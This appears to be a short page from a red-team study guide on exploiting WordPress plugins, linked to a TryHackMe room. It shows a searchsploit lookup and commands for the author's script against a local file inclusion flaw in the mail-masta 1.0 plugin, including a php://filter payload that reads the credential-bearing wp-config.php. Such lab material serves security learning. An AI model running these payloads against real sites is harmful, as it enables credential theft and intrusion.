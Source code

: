 # WordPress Plugins Exploitation

[![allinonemj](../../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)

<div class="row row-cols-lg-2"><div>

To exploit plugins, you may want to look for [CVEs and exploits](/cybersecurity/red-team/s3.exploitation/index.md#common-vulnerabilities-) corresponding to your plugin version.

You can use [exploit-db](/cybersecurity/red-team/s3.exploitation/db/exploit_db.md):

```ps
$ searchsploit WordPress Plugin <plugin_name_space_separated>
```
</div><div>

I wrote a [short Python script]() for `mail-masta 1.0` [LFI](/cybersecurity/red-team/s3.exploitation/vulns/web/inclusion.md):

```shell!
$ # try to access a file you know it works
$ ./wp-mail-masta.py -u https://example.com/wordpress/ -f '/var/www/html/index.html'
$ # try to access wp-config file
$ ./wp-mail-masta.py -u https://example.com/wordpress/ -f 'php://filter/read=convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php'
```
</div></div>